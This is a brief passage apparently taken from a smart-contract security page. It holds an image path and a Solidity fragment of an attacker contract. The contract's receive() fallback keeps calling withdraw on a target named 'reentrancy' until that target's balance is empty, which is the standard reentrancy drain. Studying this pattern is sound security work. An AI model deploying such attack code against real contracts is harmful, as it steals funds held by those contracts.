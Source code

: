 ```solidity

    receive() external payable {
        if (address(reentrancy).balance > 0) {
            reentrancy.withdraw(attackAmount);
        }
    }
}
```
---

---
